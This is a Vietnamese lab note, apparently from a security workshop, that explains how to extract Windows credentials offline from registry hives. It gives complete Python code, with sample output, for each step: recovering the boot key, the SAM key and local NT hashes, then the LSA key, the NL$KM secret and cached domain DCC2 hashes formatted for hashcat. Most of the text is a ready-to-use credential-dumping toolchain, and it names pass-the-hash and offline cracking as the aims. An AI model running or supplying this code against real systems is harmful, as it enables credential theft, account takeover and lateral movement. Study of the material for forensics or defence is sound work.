

# Windows Credential Extraction: từ Registry Hive đến NT Hash / DCC2

Note này ghi lại toàn bộ chuỗi giải mã credential trên Windows local, đi từ ba
hive `SYSTEM` / `SAM` / `SECURITY`, hoàn toàn offline (không cần chạy trên máy
live, không cần Mimikatz) — chỉ cần đọc raw bytes trong registry hive bằng
`regipy` rồi tự implement lại từng bước bằng `pycryptodome`.

Toàn bộ chuỗi phụ thuộc lẫn nhau theo đúng một hướng: **Boot key** là gốc của
mọi thứ, dùng để giải ra **SAM key** (từ đó ra NT hash của user local) và
**LSA key** (từ đó ra mọi LSA secret, trong đó có `NL$KM` — chìa khóa cuối
cùng để giải cached domain credentials DCC2).



Bài này đi theo đúng thứ tự phụ thuộc trong sơ đồ trên: **Boot key → SAM key
→ NT hash**, rồi rẽ sang nhánh **LSA key → LSA secret (NL$KM) → DCC2**.

## 1. Boot key (syskey)

Boot key được Windows giấu trong 4 sub-key ẩn dưới `HKLM\SYSTEM\...\Control\Lsa`:
`JD`, `Skew1`, `GBG`, `Data`. Mỗi sub-key không lưu boot key trực tiếp mà lưu
nó dưới dạng **class name** của registry key (một trường hex 8 ký tự, bình
thường không ai để ý tới).

Các bước:
1. Đọc class name (8 hex char = 4 byte) của từng sub-key, đúng thứ tự
   `JD → Skew1 → GBG → Data`.
2. Ghép 4 đoạn thành 1 chuỗi 32 hex char (16 byte) — đây là boot key đã bị
   **xáo trộn (scrambled)**.
3. Áp một hoán vị byte cố định (P-BOX, hardcode trong Windows) để đưa từng
   byte về đúng vị trí thật → ra boot key 16 byte cuối cùng.

Boot key là **gốc của toàn bộ chuỗi giải mã** phía sau: dùng để giải SAM key
(hashed boot key) → LM/NT hash, và cũng dùng để giải LSA key → LSA secrets →
`NL$KM` → DCC2.

```python
from regipy.registry import RegistryHive

LSA_PATH = r"Root\ControlSet001\Control\Lsa"

PBOX = [
    0x8, 0x5, 0x4, 0x2,
    0xB, 0x9, 0xD, 0x3,
    0x0, 0x6, 0x1, 0xC,
    0xE, 0xA, 0xF, 0x7
]

SYSTEM_PATH = r"C:\Users\Admin\Downloads\Workshop\windows-authentication\Lab\Lab 1 - Module 2\SYSTEM_clean"


def get_bootkey(hive):
    lsa = hive.get_key(LSA_PATH)

    parts = {}
    for name in ("JD", "Skew1", "GBG", "Data"):
        key = lsa.get_subkey(name)
        parts[name] = key.get_class_name()

    scrambled = bytes.fromhex(
        "".join(parts[x] for x in ("JD", "Skew1", "GBG", "Data"))
    )

    return bytes(scrambled[i] for i in PBOX)


hive = RegistryHive(SYSTEM_PATH)
bootkey = get_bootkey(hive)

print("Boot Key:", bootkey.hex())
```

```
Boot Key: 1e8a03e19bbc807bccc804da7ce18217
```

## 2. SAM key

Value `F` tại `SAM\Domains\Account` chứa **SAM key đã mã hoá** (hashed boot
key), bảo vệ bằng boot key lấy ở bước trên, theo chuẩn AES-CBC:

- `Salt` 16 byte (dùng làm IV) nằm ở offset `0x78`, dữ liệu mã hoá ở offset
  `0x88`, độ dài khai báo ở offset `0x74`.
- Giải trực tiếp `AES-CBC(key=bootkey, iv=salt)`, 16 byte đầu bản rõ chính là
  SAM key.

SAM key (16 byte) là **key trung gian**, dùng để giải từng LM/NT hash riêng
của mỗi user ở bước kế tiếp — chưa phải hash cuối.

```python
import hashlib
import logging
from regipy.registry import RegistryHive
from Crypto.Cipher import ARC4, AES

logging.getLogger("regipy").setLevel(logging.ERROR)

# ===== HARDCODE - CHỈNH LẠI CHO PHÙ HỢP =====
BOOTKEY_HEX = "1e8a03e19bbc807bccc804da7ce18217"  # 32 ký tự hex = 16 byte, lấy từ SYSTEM hive
SAM_PATH = "SAM"                                   # đường dẫn file SAM hive
# =============================================

QWERTY = b"!@#$%^&*()qwertyUIOPAzxcvbnmQQQQQQQQQQQQ)(*@&%\0"
DIGITS = b"0123456789012345678901234567890123456789\0"


def rc4(data: bytes, key: bytes) -> bytes:
    """RC4 stream cipher dùng pycryptodome (encrypt/decrypt giống nhau)."""
    return ARC4.new(key).encrypt(data)


def _get_f_value(sam_path: str) -> bytes:
    """Lấy raw bytes của value F tại SAM\\Domains\\Account."""
    hive = RegistryHive(sam_path)
    key = hive.get_key(r"ROOT\SAM\Domains\Account")   # KHÔNG có "SAM\" ở đầu nữa
    try:
        return key.get_value("F")
    except Exception:
        for v in key.get_values():
            name = v.get("name") if isinstance(v, dict) else getattr(v, "name", None)
            if name == "F":
                return v.get("value") if isinstance(v, dict) else v.value
    raise ValueError("Không tìm thấy value F trong SAM\\Domains\\Account")


def get_sam_key(bootkey_hex: str, sam_path: str) -> bytes:
    bootkey = bytes.fromhex(bootkey_hex)
    f_value = _get_f_value(sam_path)

    data_len = int.from_bytes(f_value[0x74:0x78], "little")
    salt = f_value[0x78:0x88]
    data = f_value[0x88:0x88 + data_len]

    cipher = AES.new(bootkey, AES.MODE_CBC, iv=salt)
    decrypted = b"".join(cipher.decrypt(data[i:i + 16]) for i in range(0, len(data), 16))
    return decrypted[:16]


if __name__ == "__main__":
    sam_key = get_sam_key(BOOTKEY_HEX, SAM_PATH)
    print("SAM Key:", sam_key.hex().upper())
```

```
SAM Key: BAE012F3C2AE98ED31662F0996546722
```

## 3. NT hash

Mỗi user trong `SAM\Domains\Account\Users\<RID>` có value `V` — một blob nhị
phân chứa toàn bộ info account (username, LM/NT hash mã hoá...) dưới dạng
offset+length trỏ tới từng field, nằm sau header cố định `0xCC` byte.

1. Đọc `username`, `raw_nt` bằng cách nhảy tới offset ghi trong header +
   `0xCC`.
2. `raw_nt` được giải bằng AES: `AES-CBC(key=sam_key[:16], iv=salt)`, salt
   nằm sẵn trong blob (offset 8–24) → ra 16 byte trung gian.
3. 16 byte trung gian **chưa phải hash cuối** — còn một lớp obfuscate bằng
   DES: RID sinh ra 2 DES key 8-byte (thuật toán mở rộng 7→8 byte kèm
   odd-parity chuẩn của SAM), rồi DES-ECB-decrypt 2 nửa 8-byte để ra NT hash
   thật.

RID không chỉ là ID user — nó còn là một phần key material dùng để giải mã
hash của chính nó.

```python
import struct
import hashlib
import logging
from regipy.registry import RegistryHive
from Crypto.Cipher import DES, AES

logging.getLogger("regipy").setLevel(logging.ERROR)

# ===== HARDCODE - CHỈNH LẠI CHO PHÙ HỢP =====
SAM_PATH = "SAM"
SAM_KEY_HEX = "BAE012F3C2AE98ED31662F0996546722"  # 32 hex char = 16 byte
# =============================================

EMPTY_NT_HASH = bytes.fromhex("31d6cfe0d16ae931b73c59d7e0c089c0")


def _odd_parity(b: int) -> int:
    b &= 0xFE
    return b if bin(b).count("1") % 2 == 1 else (b | 1)


def _str_to_deskey(s: bytes) -> bytes:
    """Mở rộng 7 byte -> 8 byte DES key có odd parity (thuật toán chuẩn của SAM)."""
    k = [0] * 8
    k[0] = s[0] >> 1
    k[1] = ((s[0] & 0x01) << 6) | (s[1] >> 2)
    k[2] = ((s[1] & 0x03) << 5) | (s[2] >> 3)
    k[3] = ((s[2] & 0x07) << 4) | (s[3] >> 4)
    k[4] = ((s[3] & 0x0F) << 3) | (s[4] >> 5)
    k[5] = ((s[4] & 0x1F) << 2) | (s[5] >> 6)
    k[6] = ((s[5] & 0x3F) << 1) | (s[6] >> 7)
    k[7] = s[6] & 0x7F
    return bytes(_odd_parity(b << 1) for b in k)


def _rid_to_deskeys(rid: int):
    s = struct.pack("<L", rid)
    s1 = s + s[0:3]
    s2 = bytes([s[3]]) + s + s[0:2]
    return _str_to_deskey(s1), _str_to_deskey(s2)


def _decrypt_des_hash(obfuscated: bytes, rid: int) -> bytes:
    k1, k2 = _rid_to_deskeys(rid)
    d1 = DES.new(k1, DES.MODE_ECB).decrypt(obfuscated[:8])
    d2 = DES.new(k2, DES.MODE_ECB).decrypt(obfuscated[8:16])
    return d1 + d2


def _decrypt_hash(rid: int, raw: bytes, sam_key: bytes, empty_hash: bytes) -> bytes:
    """AES-based hash decrypt (SAM revision 3, Win10/11 mặc định)."""
    salt = raw[8:24]
    data = raw[24:]
    if len(data) == 0:
        return empty_hash
    cipher = AES.new(sam_key[:16], AES.MODE_CBC, iv=salt)
    key = cipher.decrypt(data)[:16]
    return _decrypt_des_hash(key, rid)


def _get_value(key, name):
    try:
        return key.get_value(name)
    except Exception:
        for v in key.iter_values():
            n = v.get("name") if isinstance(v, dict) else getattr(v, "name", None)
            if n == name:
                return v.get("value") if isinstance(v, dict) else v.value
    return None


def dump_hashes(sam_path: str, sam_key_hex: str):
    sam_key = bytes.fromhex(sam_key_hex)
    hive = RegistryHive(sam_path)
    users_key = hive.get_key(r"ROOT\SAM\Domains\Account\Users")

    results = []
    for sk in users_key.iter_subkeys():
        if sk.name.upper() == "NAMES":
            continue
        rid = int(sk.name, 16)
        v = _get_value(sk, "V")
        if v is None:
            continue

        name_offset = struct.unpack("<L", v[0x0c:0x10])[0] + 0xCC
        name_length = struct.unpack("<L", v[0x10:0x14])[0]
        username = v[name_offset:name_offset + name_length].decode("utf-16-le", errors="replace")

        nt_offset = struct.unpack("<L", v[0xa8:0xac])[0] + 0xCC
        nt_length = struct.unpack("<L", v[0xac:0xb0])[0]
        raw_nt = v[nt_offset:nt_offset + nt_length]

        nt_hash = _decrypt_hash(rid, raw_nt, sam_key, EMPTY_NT_HASH)
        results.append((rid, username, nt_hash.hex()))
    return results


if __name__ == "__main__":
    for rid, username, nt_hash in dump_hashes(SAM_PATH, SAM_KEY_HEX):
        print(f"{username}:{rid}::{nt_hash}:::")
```

```
Administrator:500::31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501::31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503::31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504::7ad1d5a08c045d1d576f142fb13275b4:::
felamos:...
```

> Đến đây là xong nhánh SAM: **Boot key → SAM key → NT hash local**. Phần
> tiếp theo rẽ sang nhánh SECURITY hive: **Boot key → LSA key → LSA secret →
> DCC2**.

## 4. LSA key

LSA key được mã hoá trong value `PolEKList` tại `SECURITY\Policy\PolEKList`,
bảo vệ bằng boot key. Từ Windows 8.1 trở lên, **mọi** blob loại này
(`PolEKList`, LSA secrets...) dùng chung một công thức key-derivation:

1. Lấy 32 byte tại offset 28 của blob (`spliced_secret`).
2. Lặp 1000 lần: `combined_key = combined_key + spliced_secret` (nối byte,
   **không phải XOR**) — key-stretching thô sơ.
3. `hash_key = SHA256(combined_key)` sau 1000 vòng.
4. Từ offset 60 trở đi, blob được chia thành các block 16 byte, giải từng
   block bằng `AES-CBC(key=hash_key, iv=0x00...16 byte)` — IV luôn là 16 byte
   0, và mỗi block decrypt độc lập theo đúng cách Windows implement.

LSA key thật nằm ở offset 68, dài 32 byte, trong khối `PolEKList` đã giải.

```python
from hashlib import sha256
from Crypto.Cipher import AES


def combine(a: bytes, b: bytes) -> bytes:
    return a + b


def decrypt_lsa(secret: bytes, key: bytes) -> bytes:
    combined_key = key
    spliced_secret = secret[28:28 + 32]

    for _ in range(1000):
        combined_key = combine(combined_key, spliced_secret)

    hash_key = sha256(combined_key).digest()
    plaintext_secret = b""

    # AES-CBC decrypt từng block 16 byte, bắt đầu từ offset 60
    for i in range(60, len(secret), 16):
        block = secret[i:i + 16]
        cipher = AES.new(hash_key, AES.MODE_CBC, iv=b"\x00" * 16)
        plaintext_secret += cipher.decrypt(block)

    return plaintext_secret


def main():
    boot_key = bytes.fromhex("1e8a03e19bbc807bccc804da7ce18217")

    polEKList = bytes.fromhex(
        "00000001ECFFE17B2A997440AA939ADBFF26F1FC030000000000000056C79773D7B24B1B4EAB4D50EB113CA718CDF89CFD81B7F912C6ACB605D1F7CE09ED4DAB91D01F335947407383C768511559E966ADF709F8B6A099378DFF906DF6C6D8E12E26C574F7EF7667E615218AD4AC18EF5AFD5C88EBCA789BCE2B3D67C4D2EC7BB259BD1D1238EDA64215A4215FF8C3CD68E5CA99A70B1E87F9BD573BC083E01093134038800CD51BA3E1D43B"
    )

    lsa_key_full = decrypt_lsa(polEKList, boot_key)
    lsa_key = lsa_key_full[68:68 + 32]

    print("LSA Key:", lsa_key.hex())


if __name__ == "__main__":
    main()
```

```
LSA Key: de2d7bb0dab2217416b9cd2459b9bb6a82dffebc35c9c80a85b4c1b932a240f1
```

## 5. LSA secret — `NL$KM`

Mọi **LSA secret** (`CurrVal` tại `SECURITY\Policy\Secrets\<TênSecret>\CurrVal`)
— gồm `$MACHINE.ACC`, `DPAPI_SYSTEM`, và đặc biệt **`NL$KM`** (key dùng để mã
hoá cached domain credentials) — đều được giải bằng **đúng công thức ở bước
LSA key phía trên**, chỉ khác là key gốc đưa vào là **LSA key** thay vì boot
key.

Bản rõ sau khi giải (SHA256 lặp 1000 vòng + AES-CBC IV=0) có cấu trúc:

```
[ 4 byte length ][ 12 byte header/reserved ][ payload... ]
```

Có 3 kiểu payload cần phân biệt khi parse:
- **raw hex** — cho secret dạng key nhị phân thuần (`NL$KM`, `$MACHINE.ACC`,
  `DPAPI_SYSTEM`): cắt đúng `length` byte tại offset 16, giữ dạng hex.
- **UTF-16 password** — cho secret dạng mật khẩu service/user account: decode
  `utf-16-le`.
- **debug dump** — in toàn bộ header + payload hex để tự phân tích khi chưa
  chắc loại secret.

`NL$KM` giải ra ở dạng raw hex chính là **key dùng thẳng ở bước decode DCC2**
phía dưới.

```python
from hashlib import sha256
from Crypto.Cipher import AES


def combine(a: bytes, b: bytes) -> bytes:
    return a + b


def decrypt_lsa(secret: bytes, key: bytes) -> bytes:
    combined_key = key
    spliced_secret = secret[28:28 + 32]

    for _ in range(1000):
        combined_key = combine(combined_key, spliced_secret)

    hash_key = sha256(combined_key).digest()
    plaintext = b""

    for i in range(60, len(secret), 16):
        block = secret[i:i + 16]
        cipher = AES.new(hash_key, AES.MODE_CBC, iv=b"\x00" * 16)
        plaintext += cipher.decrypt(block)

    return plaintext


def parse_mode_1(data: bytes):
    """raw hex extraction (NL$KM / DPAPI_SYSTEM style)"""
    length = data[0]
    return data[16:16 + length].hex()


def parse_mode_2(data: bytes):
    """UTF-16 password (service / user secrets)"""
    length = data[0]
    try:
        return data[16:16 + length].decode("utf-16le", errors="ignore")
    except Exception:
        return "<decode_error>"


def parse_mode_3(data: bytes):
    """debug full structure dump"""
    return {
        "length_byte": data[0],
        "header": data[:16].hex(),
        "payload": data[16:].hex()
    }


def main():
    CurrVal = bytes.fromhex(
        "0000000185049A5064FAD8476BCE289DCC18741B0300000000000000E8B907AD07CA48E7275B5EDF7F9FDA81FB4D6E1EE46A6F0FEEAE4DB9C365F02C3E79AAF566C87BC873AF999FBEBD2C1B0899B0139AC5AD421275822292875F81FAB7909A5C7ECD1AA97C352B47107C2955FF136767FD76FA0C8F6AE4A0B3D681ECEFEFD097CDD8E794A2BDBB001F0C6C00000000000000000000000000000000"
    )
    LSA_key = bytes.fromhex(
        "de2d7bb0dab2217416b9cd2459b9bb6a82dffebc35c9c80a85b4c1b932a240f1"
    )

    decrypted = decrypt_lsa(CurrVal, LSA_key)
    print("LSA secret:", parse_mode_1(decrypted))


if __name__ == "__main__":
    main()
```

```
LSA secret: 74be9051232ee371f2a6c80fe7d7a1bea942b69f22f42dade5e9d46c260869a04a26a47c40f9303e84535260bbedc57facadbd4086299de5eb8f647f106800db
```

## 6. MSCache v2 / DCC2

Cached domain credentials (**DCC2** / **MSCache v2**) là giá trị Windows lưu
để user vẫn login được khi domain controller offline. Có 2 cách lấy DCC2 của
một user, note này chỉ cover cách **giải trực tiếp từ registry** (không cần
biết mật khẩu): mỗi lần login domain thành công, Windows đã tính sẵn DCC2 và
lưu (dạng mã hoá) vào `HKLM\SECURITY\Cache\NL$<n>`. Chỉ cần giải đúng key là
có DCC2 ngay — đây là phần dùng `NL$<n>` + `NL$KM` giải ở bước trên.

Mỗi value `NL$<n>` trong `HKLM\SECURITY\Cache` có cấu trúc cố định:

```
[ metadata cleartext ][ IV ][ padding ][ Encrypted Data ]
      64 byte           16 byte 16 byte    > 100 byte
```

- **metadata** (cleartext): chứa độ dài username, domain, full domain name...
  để biết cách cắt chuỗi sau khi giải.
- **IV**: 16 byte dùng thẳng làm IV cho AES-CBC (chuẩn từ Windows Vista/7 trở
  lên; bản cũ hơn dùng RC4-HMAC-MD5, không cover trong note này).
- **Encrypted Data**: phần bị mã hoá, bắt đầu từ offset 96 trong value.

Thuật toán giải (logic tham khảo từ creddump7 / `domcachedump.py`):

1. `AES_key = NL$KM[:16]` — chỉ lấy **16 byte đầu** trong 64 byte secret
   `NL$KM` đã giải ở bước trên, dùng thẳng làm key AES-128 (không hash thêm
   gì nữa).
2. `plaintext = AES-CBC-Decrypt(EncryptedData, key=AES_key, iv=IV)`
3. Trong `plaintext`:
   - 16 byte đầu (`plaintext[0:16]`) chính là **DCC2 hash** — không cần tính
     toán gì thêm.
   - Username nằm ở offset cố định `72`, dài `uname_len` (lấy từ metadata),
     có thể padding thêm 2 byte để căn bội số 4.
   - Domain và domain name nằm nối tiếp ngay sau, cùng quy tắc padding.

Kết quả format thành chuỗi chuẩn để đưa vào hashcat/john:
`$DCC2$10240#username#dcc2_hash_hex`.

```python
import struct
from Crypto.Cipher import AES

# ===== HARDCODE - DÁN GIÁ TRỊ CỦA BẠN VÀO ĐÂY =====
NLKM_HEX = "74be9051232ee371f2a6c80fe7d7a1bea942b69f22f42dade5e9d46c260869a04a26a47c40f9303e84535260bbedc57facadbd4086299de5eb8f647f106800db"
NL_HEX = "14000C001400140000000000000000004F04000001020000020000000C0018002190AB8C9624DB01040001000200000001000A00300000001000000018002E00AB19057644870ABE714331F5D33168C0F5FFA2D896A645681CF5A204C050B5682EECDE0B3C42B096C7035F7590A85D55C908E1533A7C26B0620793D7F75A9EE423D350EE0DE83B2970CD5C112CD4E366A8C87F322BB7A0DED6B961E8267AF9DC40A84D7E716E5D2A09312934645DF69671382BD72E7B48E07D06046FE5DD6CA08310714DC171FB129545F4C9D395B4D2C8ED29E4615F27616461BE9008E4807C20A99ED57C0B2B5B2F05B2984868EC05418A1D64113A3C8766F0DAFCBD9CE6EAB3E39E12FDDE1E062EB82F46783FF375109FB5CF0F2DA63E122F02D4C111445C169F721C0156014FAC5E8B5AC485CBAC13ACC62B98E7A304ED65E637B48BBC1CA0E665EEDCD037E462CBF5D643B6C43ABE3F474F2926B1EE4C9C8D16319C89A2E4210A39FD44DBBAE9D6202CA779E97E0D62DFADEC0046F1615013004CA3A94B2800859DF0BFB90C96B3E8FF999EFE0956681D883669594A568016DD739964FAFA1EE830138B982A"
ITERATIONS = 10240
# ====================================================


def parse_cache_entry(data: bytes):
    """Tách metadata cleartext + IV + encrypted data từ 1 giá trị NL$<n>
    (cấu trúc NL_RECORD mới của impacket, field 64:80 là 'IV', không phải 'CH')."""
    uname_len, domain_len = struct.unpack("<HH", data[:4])
    (domain_name_len,) = struct.unpack("<H", data[60:62])
    iv = data[64:80]            # IV cho AES-CBC (trước đây hay nhầm là 'CH')
    enc_data = data[96:]        # phần bị mã hoá
    return uname_len, domain_len, domain_name_len, enc_data, iv


def decrypt_nl_entry(enc_data: bytes, nlkm: bytes, iv: bytes) -> bytes:
    """AES-CBC decrypt: key = NL$KM[:16] (16 byte đầu), iv = IV field."""
    aes = AES.new(nlkm[:16], AES.MODE_CBC, iv)
    out = b""
    for i in range(0, len(enc_data), 16):
        block = enc_data[i:i + 16]
        if len(block) < 16:
            block += b"\x00" * (16 - len(block))
        out += aes.decrypt(block)
    return out


def parse_decrypted_cache(dec_data: bytes, uname_len: int, domain_len: int, domain_name_len: int):
    uname_off = 72
    pad = 2 * ((uname_len // 2) % 2)
    domain_off = uname_off + uname_len + pad

    pad2 = 2 * ((domain_len // 2) % 2)
    domain_name_off = domain_off + domain_len + pad2

    dcc2_hash = dec_data[:16]
    username = dec_data[uname_off:uname_off + uname_len].decode("utf-16-le", errors="replace")
    domain = dec_data[domain_off:domain_off + domain_len].decode("utf-16-le", errors="replace")
    domain_name = dec_data[domain_name_off:domain_name_off + domain_name_len].decode("utf-16-le", errors="replace")

    return username, domain, domain_name, dcc2_hash


def decode_nl_entry(nl_hex: str, nlkm_hex: str):
    nlkm = bytes.fromhex(nlkm_hex)
    data = bytes.fromhex(nl_hex)

    uname_len, domain_len, domain_name_len, enc_data, iv = parse_cache_entry(data)
    if uname_len == 0:
        raise ValueError("NL$ entry này rỗng (uname_len == 0) - cache slot chưa được dùng.")

    dec_data = decrypt_nl_entry(enc_data, nlkm, iv)
    return parse_decrypted_cache(dec_data, uname_len, domain_len, domain_name_len)


if __name__ == "__main__":
    username, domain, domain_name, dcc2_hash = decode_nl_entry(NL_HEX, NLKM_HEX)
    print("Username    :", username)
    print("Domain      :", domain)
    print("Domain name :", domain_name)
    print("DCC2 hash   :", dcc2_hash.hex())
    print("Hashcat fmt :", f"$DCC2${ITERATIONS}#{username}#{dcc2_hash.hex()}")
```

```
Username    : aarush.roy
Domain      : STORED
Domain name : STORED.LOCAL
DCC2 hash   : c227f8df681cf3529377a7f22da715ca
Hashcat fmt : $DCC2$10240#aarush.roy#c227f8df681cf3529377a7f22da715ca
```

## Tổng kết

Toàn bộ chuỗi credential extraction trên Windows local có thể tóm gọn thành
một cây phụ thuộc duy nhất bắt nguồn từ **boot key**:

- `Boot key` → `SAM key` → **NT hash** (local user, để pass-the-hash / crack
  offline).
- `Boot key` → `LSA key` → `LSA secret` (`NL$KM`, `DPAPI_SYSTEM`,
  `$MACHINE.ACC`) → **DCC2** (cached domain credentials, để crack bằng
  hashcat mode `2100`).

Điểm chung xuyên suốt: từ Windows 8.1 trở lên, mọi lớp mã hoá "thế hệ mới"
(SAM key, LSA key, LSA secrets) đều chỉ xoay quanh hai nguyên thủy —
**AES-CBC** với key derive bằng SHA256 key-stretching 1000 vòng, và IV cố
định hoặc lấy từ salt trong blob. Chỉ riêng NT hash local là còn giữ lại lớp
DES-ECB obfuscate bằng RID, tàn dư từ thời SAM revision cũ.
